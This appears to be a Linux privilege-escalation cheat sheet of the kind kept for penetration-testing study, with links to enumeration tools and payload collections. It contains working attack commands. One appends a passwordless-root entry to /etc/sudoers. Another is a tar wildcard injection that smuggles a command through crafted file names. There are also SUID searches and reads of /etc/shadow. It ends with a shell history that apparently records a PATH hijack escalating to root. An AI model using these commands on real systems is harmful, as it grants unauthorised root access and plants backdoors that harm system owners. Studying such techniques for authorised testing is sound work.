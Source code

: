 -   [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
-   [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
-`python3 -c 'import crypt; print(crypt.crypt("test", crypt.mksalt(crypt.METHOD_SHA512)))'`
- `echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
- https://payatu.com/guide-linux-privilege-escalation

1. SUID / GUID
	2. `find / -perm /4000 2> /dev/null | grep bin`
	3. `find / -perm /2000 2> /dev/null | grep bin`
	4. [gtfobins (privesc)](https://gtfobins.github.io)
2. file permission misconfigurations
	1. `ls -l /etc/passwd /etc/shadow /etc/sudoers`
3. sudo permissions
	1. `sudo -l`
4. cron 
	1. /etc/crontab
5. .ssh folders in home dirs
	1. `ls -la /home/*`
6. tar wildcards
```bash
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo 'echo "www-data  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > shell.sh
```


    1  ls
    2  menu
    3  menu 
    4  pwd
    5  mkdir bin
    6  cd bin
    7  ls
    8  vi ifconfig
    9  chmod +x ifconfig 
   10  ./ifconfig 
   11  vi ifconfig 
   12  ./ifconfig 
   13  ls
   14  cat test 
   15  $PATH
   16  ifconfig 
   17  ls
   18  cat test 
   19  menu
   20  ls
   21  cat test 
   22  vi ifconfig 
   23  menu
   24  cat test 
   25  vi ifconfig 
   26  menu
   27  sudo -l
   28  sudo su
   29  history

